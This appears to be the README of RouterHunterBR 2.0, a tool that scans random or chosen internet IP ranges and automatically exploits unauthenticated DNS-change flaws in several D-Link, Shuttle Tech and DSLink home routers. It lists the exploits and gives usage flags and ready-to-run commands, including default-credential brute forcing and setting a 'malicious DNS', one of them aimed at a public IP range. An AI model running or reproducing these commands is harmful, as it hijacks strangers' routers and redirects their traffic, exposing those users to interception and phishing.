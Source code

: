 # Scanner Routerhunter 2.0
 Tool used to find vulnerable routers and devices on the Internet and perform tests

```
	          _	          _           _		   		   
  ___ ___ _ _| |_ ___ ___| |_ _ _ ___| |_ ___ ___ 
 |  _| . | | |  _| -_|  _|   | | |   |  _| -_|  _|
 |_| |___|___|_| |___|_| |_|_|___|_|_|_| |___|_|
				       BR - v2.0

 Tool used to find vulnerable routers and devices on the Internet and perform tests.

[ Coded by Jhonathan Davi a.k.a jh00nbr - jhoonbr at protonmail.ch ]
[ fb.com/JhonVipNet - twitter.com/jh00nbr - github.com/jh00nbr/ - blog.inurl.com.br - www.youtube.com/c/Mrsinisterboy ]


[!] legal disclaimer: Usage of RouterHunterBR for attacking targets without prior mutual 
consent is illegal. It is the end user's responsibility to obey all applicable local, state and 
federal laws.Developers assume no liability and are not responsible for any misuse or damage caused
by this program.  
```


 * AUTOR: Jhonathan Davi A.K.A jh00nbr
 * EMAIL*: jhoonbr@protonmail.ch
 * Blog: http://blog.inurl.com.br
 * Twitter: https://twitter.com/jh00nbr
 * Facebook: https://fb.com/JhonVipNet
 * Fanpage: https://fb.com/InurlBrasil
 * Github: https://github.com/jh00nbr/
 * Youtube: https://www.youtube.com/c/Mrsinisterboy


### Description
------
  The Router Hunterbr is an automated security tool that finds and performs vulnerabalidades tests on routers and vulnerable devices on the Internet. The Routerhunter was designed to run over the Internet looking for defined ips tracks or random in order to automatically exploit the vulnerability DNSChanger on home routers.
  
  The script explores four vulnerabilities in routers
  
 * Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit            
  reference: http://www.exploit-db.com/exploits/35995/

 * D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit           
  reference: http://www.exploit-db.com/exploits/35917/

 * D-Link DSL-2640B Unauthenticated Remote DNS Change Exploit            
   reference: http://1337day.com/exploit/23302/ 
 * D-Link DSL-2780B DLink_1.01.14 - Unauthenticated Remote DNS Change           
   reference: https://www.exploit-db.com/exploits/37237/ 

 * D-Link DSL-2730B AU_2.01 - Authentication Bypass DNS Change            
   reference: https://www.exploit-db.com/exploits/37240/ 
 * D-Link DSL-526B ADSL2+ AU_2.01 - Unauthenticated Remote DNS Change           
   reference: https://www.exploit-db.com/exploits/37241/ 

 * DSLink 260E - Authenticated routers - DNS Changer - Bruteforce 
   reference: https://www.youtube.com/watch?v=tNjy91g2Rak                             
   http://blog.inurl.com.br/2015/03/dslink-260e-defaut-passwords-dns-change_17.html 

### Requeriments
```
import sys, os, argparse, itertools, requests, random, time, threading, base64, socket
from datetime import datetime
```

### Usage

```
  -range 192.168.1.0-255, --range 192.168.1.0-255  Set range of IP
  -bruteforce, --bruteforce                        Performs brute force with users and passwords standards, and soon    after defines the malicious DNS.
  -startip 192.168.*.*, --startip 192.168.*.*      Start - IP range customized with wildcard / 201.*.*.*
  -endip 192.168.*.*, --endip 192.168.*.*          End - IP range customized with wildcard / 201.*.*.*
  -dns1 8.8.8.8, --dns1 8.8.8.8                    Define malicious dns1
  -dns2 8.8.4.4, --dns2 8.8.4.4                    Define malicious dns2
  --threads 10                                     Set threads numbers
  -rip, --randomip                                 Randomizing ips routers
  -lmtip 10, --limitip 10                          Define limite random ip
```

### Commands

```
Random ips
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --randomip --limitip 10 --threads 10                      
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 -rip -lmtip 10 --threads 10

```


```
Scanner in range ip:
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --range 192.168.25.0-255 --threads 10

```

```
IP range customized with wildcard / Ex: --startip 201.*.*.* -  --endip 201.*.*.*
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --startip 192.168.*.* --endip 192.168.*.* --threads 10
```
```
Brute force with users and passwords on routers that requires authentication, forcing alteration of dns - DSLink 260E.
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.4 --range 177.106.19.65-70 --bruteforce --threads 10
```

### Screenshots 
![rip](http://i.imgur.com/CAhvz1T.png)
![range](http://i.imgur.com/sA1IKTp.png)
![brute](http://i.imgur.com/IhtaZhw.png)
